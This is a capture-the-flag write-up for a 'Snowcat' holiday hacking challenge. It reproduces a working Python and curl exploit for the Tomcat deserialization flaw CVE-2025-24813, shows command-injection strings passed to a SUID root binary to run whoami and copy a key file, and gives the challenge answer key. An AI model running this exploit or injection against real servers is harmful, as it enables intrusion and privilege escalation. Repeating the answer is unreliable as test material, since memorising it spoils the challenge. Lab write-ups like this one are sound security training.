








# Snowcat RCE & Priv Esc


**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: [Snowcat RCE & Priv Esc](https://hhc25-wetty-prod.holidayhackchallenge.com/?&challenge=termSnowcat){:target="_blank" rel="noopener"}<br/>
**Area**: The hotel<br/> 
**In-game avatar**: Tom Hessman


## Hints
??? tip "Hint 1"
    Snowcat is closely related to Tomcat. Maybe the recent Tomcat Remote Code Execution vulnerability (CVE-2025-24813) will work here.
??? tip "Hint 2"
    If you're feeling adventurous, maybe you can become root to figure out more about the attacker's plans.
??? tip "Hint 3"
    Maybe we can inject commands into the calls to the temperature, humidity, and pressure monitoring services.


## Objective

!!! question "Request"
    Tom, in the hotel, found a wild Snowcat bug. Help him chase down the RCE! Recover and submit the API key not being used by snowcat.<br/>

??? quote "Tom Hessman"
    We've lost access to the neighborhood weather monitoring station.<br/>
    There are a couple of vulnerabilities in the snowcat and weather monitoring services that we haven't gotten around to fixing.<br/>
    Can you help me exploit the vulnerabilities and retrieve the other application's authorization key?<br/>
    Enter the other application's authorization key into the badge.<br/>
    If Frosty's plan works and everything freezes over, our customers won't be having the best possible experience—they'll be having the coldest possible experience! We need to stop this before the whole neighborhood becomes one giant freezer.<br/>


### High-Level Steps

1. **Gain Initial RCE** – Exploit Snowcat’s Tomcat-based deserialization vulnerability.
2. **Identify Privilege Escalation** – Locate SUID root weather monitoring binaries.
3. **Escalate & Extract Key** – Inject commands to read the unused authorization key.



## Solution
Listing the files we have in the challenge. <br/>
 <br/>

??? "CVE-2025-24813.py"

    ```py title="CVE-2025-24813.py"
        import http.client
        import base64
        import argparse

        def main():
            parser = argparse.ArgumentParser(description="Send serialized session payload via PUT, then trigger via GET.")
            parser.add_argument("--host", required=True, help="Target host, e.g. 192.168.137.132")
            parser.add_argument("--port", type=int, default=8080, help="Target port (default: 8080)")
            parser.add_argument("--base64-payload", required=True, help="Base64-encoded serialized session data")
            parser.add_argument("--session-id", default=".deserialize", help="JSESSIONID value (default: .deserialize)")
            args = parser.parse_args()

            host = args.host
            port = args.port
            session_id = args.session_id

            try:
                payload = base64.b64decode(args.base64_payload)
            except Exception as e:
                print("[!] Failed to decode base64 payload:", e)
                return

            # 1. Send PUT request
            print("[*] Sending PUT request with serialized session data...")
            conn = http.client.HTTPConnection(host, port)
            put_headers = {
                "Host": f"{host}:{port}",
                "Content-Length": str(len(payload)),
                "Content-Range": f"bytes 0-{len(payload)-1}/{len(payload)}"
            }
            conn.request("PUT", f"/{session_id}/session", body=payload, headers=put_headers)
            put_response = conn.getresponse()
            print(f"[PUT] Status: {put_response.status} {put_response.reason}")
            print(put_response.read().decode(errors="ignore"))
            conn.close()

            # 2. Send GET request to trigger deserialization via session
            print("[*] Sending GET request with session cookie...")
            conn = http.client.HTTPConnection(host, port)
            get_headers = {
                "Host": f"{host}:{port}",
                "Cookie": f"JSESSIONID=.{session_id}"
            }
            conn.request("GET", "/", headers=get_headers)
            get_response = conn.getresponse()
            print(f"[GET] Status: {get_response.status} {get_response.reason}")
            print(get_response.read().decode(errors="ignore"))
            conn.close()

        if __name__ == "__main__":
            main()

    ```
??? "notes.md"
    ```py title="notes.md"
        # Remote Code Execution exploiting RCE-2025-24813

        Snowcat is a webserver adapted to life in the arctic.
        Can you help me check to see if Snowcat is vulnerable to RCE-2025-24813 like its cousin Tomcat?

        ## Display ysoserial help, lists payloads, and their dependencies:
        ```
        java -jar ysoserial.jar
        ```

        ## Identify what libraries are used by the Neighborhood Weather Monitoring system

        ## Use ysoserial to generate a payload

        Store payload in file named payload.bin

        ## Attempt to exploit RCE-2025-24813 to execute the payload

        ```
        export HOST=TODO_INSERT_HOST
        export PORT=TODO_INSERT_PORT
        export SESSION_ID=TODO_INSERT_SESSION_ID

        curl -X PUT \
        -H "Host: ${HOST}:${PORT}" \
        -H "Content-Length: $(wc -c < payload.bin)" \
        -H "Content-Range: bytes 0-$(($(wc -c < payload.bin)-1))/$(wc -c < payload.bin)" \
        --data-binary @payload.bin \
        "http://${HOST}:${PORT}/${SESSION_ID}/session"

        curl -X GET \
        -H "Host: ${HOST}:${PORT}" \
        -H "Cookie: JSESSIONID=.${SESSION_ID}" \
        "http://${HOST}:${PORT}/"
        ```


        # Privilege Escalation

        The Snowcat server still uses some C binaries from an older system iteration.
        Replacing these has been logged as technical debt.
        <TOOD_INSERT_ELF_NAME> said he thought these components might create a privilege escalation vulnerability.
        Can you prove these components are vulnerable by retrieving the key that is not used by the Snowcat hosted Neighborhood Weather Monitoring Station?
    ```

Get the processes and which port they are listening on : <br/>

```
netstat -l
```
The snowcat is listening on 8005.<br/>


Looking at the a "key" with executables below (highlighted) <br/>

In the "/home/user/weather-jsps/dashboard.jsp" we see below executables being called with a key :


<br/>
Check permission on /usr/local/weather/temperature <br/>
```
ls -l /usr/local/weather/temperature
```



This means:<br/>
- This binary is owned by root.<br>
- Any user who runs /usr/local/weather/temperature executes it as root, regardless of their own permissions. So we can run any executable if we can inject them in teh commands on /usr/local/weather/temperature

We can execute the executable directly with the key we notice in the source code of Dashboard.jsp<br/>
```
/usr/local/weather/temperature 4b2f3c2d-1f88-4a09-8bd4-d3e5e52e19a6
```
We see the temparature. <br/>


Looking at the strings in each of the executables. <br>
```
strings /usr/local/weather/temperature 
```
Its possible that Its calling the /usr/local/weather/logUsage (which is another executable) as noted by x in the -rwx <br/>



Execute another binary with the temparature.<br/>
```
/usr/local/weather/temperature "'4b2f3c2d-1f88-4a09-8bd4-d3e5e52e19a6; whoami;'"
```
temparature ebinary xecutes with the id to give its output. '; ends the command and begins the next.<br/>
new comand (whoami) to give its output</br>



Using the same methodology, we can execute cp command to copy the contents of the /usr/local/weather/keys/authorized_keys to /tmp/authorized_copied.<br/>

```
/usr/local/weather/temperature "4b2f3c2d-1f88-4a09-8bd4-d3e5e52e19a6'; cp /usr/local/weather/keys/authorized_keys /tmp/authorized_copied; echo '"
```
We see two keys in the copied file<br/>


4b2f3c2d-1f88-4a09-8bd4-d3e5e52e19a6<br/>
8ade723d-9968-45c9-9c33-7606c49c2201

We already have the 4b2f3c2d-1f88-4a09-8bd4-d3e5e52e19a6 in the source code.<br/>
The new one in the above output is : <br/> 8ade723d-9968-45c9-9c33-7606c49c2201.<br/>

We enter as the answer and that is accepted.</br>
8ade723d-9968-45c9-9c33-7606c49c2201


!!! success "Answer"
```
8ade723d-9968-45c9-9c33-7606c49c2201
```
We enter that in the challenge and Its accepted.<br/>


## Response
!!! quote "Tom Hessman"
    Fantastic work! You've successfully exploited those vulnerabilities and retrieved the authorization key from the weather monitoring system.<br/>

    Thanks for helping me get access back - our customers are going to have a much better experience now that we've got the weather station running again!